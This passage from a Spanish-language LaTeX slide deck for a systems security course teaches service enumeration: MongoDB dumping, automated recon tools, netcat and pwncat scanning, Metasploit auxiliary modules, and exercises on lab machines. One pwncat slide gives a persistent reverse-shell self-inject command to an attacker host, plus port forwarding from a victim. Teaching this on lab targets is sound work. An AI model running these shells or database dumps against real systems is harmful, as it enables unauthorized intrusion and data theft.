  \item Funcionalidad: Base de datos NoSQL orientada a documentos. En lugar de tablas y filas, almacena documentos BSON organizados en colecciones
  \item Puertos: 27017/TCP (NoSQL)
  \item Vulnerabilidad: dependiendo de la configuración, la enumeración puede revelar: Versión, Configuración, Bases de datos, Colecciones, Documentos, Usuarios, Roles/permisos
  \item Explotación:
  \begin{itemize}
      \item \cmd{nmap -{}-script mongodb-info,mongodb-databases -p27017 <IP>}
      \item Frecuentemente sin autenticación $\rightarrow$ volcado completo de la base de datos.
      \item \href{https://www.mongodb.com/docs/mongodb-shell/}{mongosh}: \cmd{mongosh -{}-host TARGET -{}-port 27017}
      \item mongosh <IP> $\rightarrow$ show dbs $\cdot$ use <db> $\cdot$ db.<col>.find()
        \end{itemize}

  \item Hardening: -{}-auth, roles mínimos, bind\_ip, no exponer el 27017.
  \end{itemize}
\end{frame}

% ====================================================================
% Ejercicio final de la sección
% ====================================================================

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.55\textwidth,height=0.45\textheight,keepaspectratio]{img/sl111_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza un escaneo de puertos sobre la máquina metasploitable2 identificando los servicios (fingerprinting)
  \item Para cada servicio identificado, utiliza alguna de las técnicas o herramientas vistas en esta sección para enumerar información útil para un ataque.
  \end{itemize}
\end{frame}

\section{Automatización de la enumeración}


\begin{frame}[allowframebreaks]{Automatización de la enumeración}
\small
  \begin{itemize}
  \item ¿Por qué automatizar?
  \item Lanzar en paralelo el escaneo + los scripts NSE + la herramienta de cada servicio ahorra horas y evita olvidos.
  \item Herramientas:
    \begin{itemize}
  \item \href{https://www.hackingarticles.in/comprehensive-guide-to-autorecon/}{autorecon}: \cmd{autorecon <IP> \# nmap + enum por puerto, todo guardado y ordenado}
  \item \href{https://github.com/21y4d/nmapAutomator}{nmapAutomator}: \cmd{nmapAutomator.sh -H <IP> -t All}
  \item \href{https://github.com/GoVanguard/legion}{legion}
  \item  \href{https://github.com/six2dez/reconftw}{reconftw} <dominio> (orientado a web/superficie). \href{https://sidxparab.medium.com/best-bugbounty-recon-tool-ebe635d3b363}{Lectura}
    \end{itemize}
  \item Generan una carpeta por objetivo con un fichero por servicio (nmap, enum4linux, gobuster, nikto\dots{}).
  \item Muy útiles pero RUIDOSOS: en un engagement sigiloso, enumerar a mano y con control de ritmo.
  
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Automatización de la enumeración}
\small
  \begin{itemize}
  \item \href{https://github.com/Orange-Cyberdefense/arsenal}{Arsenal-NG} --- \href{https://www.hackingarticles.in/arsenal-ng-pentest-cheat-sheet/}{cheat-sheet de comandos}
  \item Lanzador de terminal que convierte cientos de herramientas ofensivas en un único cheat-sheet de comandos buscable.
  \item Busca por herramienta o por objetivo, autocompleta las plantillas y previsualiza el comando antes de ejecutarlo.
  \item Instalación y uso:
    \begin{itemize}
  \item \cmd{apt install arsenal-ng}
  \item \cmd{arsenal-ng \# lanzar la interfaz}
  \item tools \# inventario de herramientas
  \item \cmd{nxc ldap \# filtrar acciones NetExec/LDAP}
  \item enumerate users \# búsqueda por objetivo
  \item set ip=10.10.10.10 \# variable global reutilizable
  \end{itemize}
  \item Cubre recon, enumeración, explotación, AD, web y wireless: evita memorizar flags y reduce errores de sintaxis en el engagement.
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl095_1.png}
\end{center}
\end{frame}

\section{Otras herramientas y técnicas}

\begin{frame}[allowframebreaks]{Otras herramientas y técnicas}
\small
Aparte de las herramientas vistas en la sección anterior, existen otras que complementan la labor de enumeración de los servicios encontrados:  
\begin{itemize}
  \item nc
  \item Pwncat
  \item Metasploit
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Netcat (nc)}
\small
  \begin{itemize}
  \item Útil para escaneo y banner grabbing
  \item Escáner de puertos mínimo (sin más herramientas)
    \begin{itemize}

  \item \href{https://nmap.org/ncat/}{netcat}: \cmd{nc -v -n -z <IP> 21-100} $\cdot$ \cmd{-z} sin datos, \cmd{-n} sin DNS, \cmd{-v} verbose
  \item \cmd{nc -v -n -z -u <IP> 161 \# UDP} (p. ej. SNMP)
  \item Lista los puertos abiertos y el servicio. Útil cuando en la máquina solo tienes nc.
    \end{itemize}

  \item Banner grabbing (identificar servicio y versión)
  \begin{itemize}
  \item nc <IP> 21 $\rightarrow$ 220 (vsFTPd 3.0.3) $\cdot$ nc <IP> 22 $\rightarrow$ SSH-2.0-OpenSSH\_8.2p1
  \item \cmd{printf "HEAD / HTTP/1.0\textbackslash{}r\textbackslash{}n\textbackslash{}r\textbackslash{}n" | nc <IP> 80 \# banner HTTP}
  \item El banner revela producto y versión $\rightarrow$ base para buscar CVEs.
  \item nc no es sigiloso ni tan rápido/completo como nmap: úsalo como recurso mínimo o si nmap no está disponible.
      \end{itemize}
  \end{itemize}
  \begin{center}
    
\includegraphics[width=0.56\textwidth,height=0.5\textheight,keepaspectratio]{img/sl096_1.png}\\[0.6ex]
    
\includegraphics[width=0.56\textwidth,height=0.5\textheight,keepaspectratio]{img/sl096_2.png}\\[0.6ex]
    
\includegraphics[width=0.56\textwidth,height=0.5\textheight,keepaspectratio]{img/sl097_1.png}\\[0.6ex]
    
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl099_1.png}
  \end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Pwncat}
\small
  \begin{itemize}
  \item \href{https://github.com/cytopia/pwncat}{Pwncat}: Reimplementación moderna de netcat en Python: exploración de red, shells y pivoting, con más funciones y persistencia.
  \item Instalación: apt install pwncat $\cdot$ pip install pwncat
  \item Port scanning + banner grabbing:
    \begin{itemize}
  \item \cmd{pwncat -z <IP> 1-100 \# escaneo de puertos}
  \item \cmd{pwncat -z <IP> 1-100 -{}-banner \# + versiones} (banner)
  \item Con -{}-banner revela servicio/versión de cada puerto (aquí: vsFTPd 3.0.5, OpenSSH 8.9, Apache 2.4.52). 
  \item Añade -u para UDP.
  \end{itemize}
\end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl098_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Pwncat}
\small
  \begin{itemize}
  \item Como listener (con persistencia): pwncat -l 1234 -{}-self-inject /bin/bash:<KALI>:1234
  \item Si se cae la conexión, la reverse shell vuelve al mismo puerto. 
  \item Multi-puerto con :1234+2 (1234-1236).
  \item Reverse shell (Windows): pwncat -l 4444 \# listener; payload de revshells.com en la víctima
  \item Local port forwarding: pwncat -L 0.0.0.0:5000 127.0.0.1 8080 (Expone un servicio interno de la víctima (127.0.0.1:8080) en tu Kali (\dots{}:5000))
  \item Ventajas sobre netcat: persistencia, self-inject, multi-puerto, port forwarding y transferencia de ficheros.
  \end{itemize}

\end{frame}



\begin{frame}{Metasploit}
\small
\begin{columns}[c]
  \begin{column}{0.54\textwidth}
    \begin{itemize}
    \item \href{https://github.com/rapid7/metasploit-framework}{Metasploit} es un framework de explotación y NO es un scanner de vulnerabilidades
    \item ¿Para qué usarlo?
      \begin{itemize}
      \item Investigación en explotación
      \item Pentesting
      \item \dots{}y también para enumeración
      \end{itemize}
    \item Arquitectura:
    \end{itemize}
  \end{column}
  \begin{column}{0.44\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.8\textheight,keepaspectratio]{img/sl108_1.png}
    \end{center}
  \end{column}
\end{columns}
\end{frame}


\begin{frame}[allowframebreaks]{Metasploit}
\small
  \begin{itemize}
  \item El módulo auxiliary recoge muchas herramientas para la fase de enumeración
  \item Atributos:
    \begin{itemize}
    \item RHOST
    \item RHOSTS
    \item PORT
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Metasploit}
\small
  \begin{itemize}
  \item Ayuda:
    \begin{itemize}
    \item Help
    \item Search
    \item Info
    \item Show <options>
    \end{itemize}
  \item Interacción:
    \begin{itemize}
    \item Use
    \item Check
    \item Set / unset
    \item Setg / unsetg
    \item run
    \item exploit
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small

\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl111_1.jpg}
\end{center}
  \begin{itemize}
  \item Utilizando metasploit y sus módulos auxiliarys, realiza un escaneo de IPs, de puertos, fingerprinting y para cada puerto/servicio identificado un ejercicio de enumeración
  \end{itemize}
\end{frame}


\begin{frame}[allowframebreaks]{Bibliografía}
\small
  \begin{itemize}
  \item Página muy recomendable para todas las fases del Pentesting, incluyendo la parte de enumeración:
    \begin{itemize}
    \item \href{https://book.hacktricks.xyz/}{https://book.hacktricks.xyz/}
    \end{itemize}
  \item \href{https://medium.com/@wondersome/reconnaissance-tools-for-hacking-d8404399d1f5}{Resumen de herramientas de enumeración:}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl120_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve esta máquina de TryHackMe: \href{https://tryhackme.com/room/boilerctf2}{boilerctf2}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl121_1.jpg}
\end{center}
\begin{itemize}
  \item Resuelve esta room de TryHackMe: \href{https://tryhackme.com/room/takeover}{takeover}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl122_1.jpg}
\end{center}
  \begin{itemize}
  \item Vamos a resolver las máquinas de Hack The Box siguientes:
  Meow $\cdot$ Fawn $\cdot$ Dancing $\cdot$ Redeemer
  \end{itemize}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    {\Huge\bfseries\color{uznavy} ¡Gracias!}\\[1em]
    {\large Seguridad en Sistemas Informáticos --- Tema 2.3}
  \end{center}
\end{frame}

\end{document}
